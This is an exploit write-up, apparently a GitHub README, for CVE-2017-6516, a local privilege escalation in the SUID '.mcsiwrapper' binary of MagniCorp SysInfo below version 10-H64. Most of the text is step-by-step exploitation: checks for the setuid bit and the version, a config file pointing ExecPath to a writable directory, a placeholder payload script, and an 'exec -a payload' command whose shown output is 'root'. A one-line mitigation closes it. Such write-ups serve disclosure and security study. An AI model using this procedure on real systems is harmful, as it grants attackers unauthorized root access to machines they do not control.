 # CVE-2017-6516

CVE-2017-6516 is a privilege escalation vulnerability that targets the `.mcsiwrapper` binary from MagniCorp SysInfo under version 10-H64. When this binary has the SUID bit set and is outdated, a user may execute arbitrary code as the owner of the binary - which is often `root`.

## Requirements

- The binary `.mcsiwrapper` must be setuid:
```bash
$ ls -l .mcsiwrapper
-rwsr-xr-x 1 root root .mcsiwrapper
```
- The binary `.mcsiwrapper` must be under version 10-H64:
```bash
$ .mcsiwrapper --version
<Version under 10-H64>
```

## Exploitation
Create a file `config` with the following contents:
```bash
ExecPath=<Path to a writeable directory>
```

Create a payload executable file in the `ExecPath` directory, for instance:
```bash
#!/bin/sh
whoami
```
And make it executable:
```bash
$ chmod +x payload
```

Run the command:
```bash
$ bash -c "exec -a payload .mcsiwrapper --configfile <path to config file>"
root
```

## Mitigations
Update `.mcsiwrapper` to at least 10-H64.
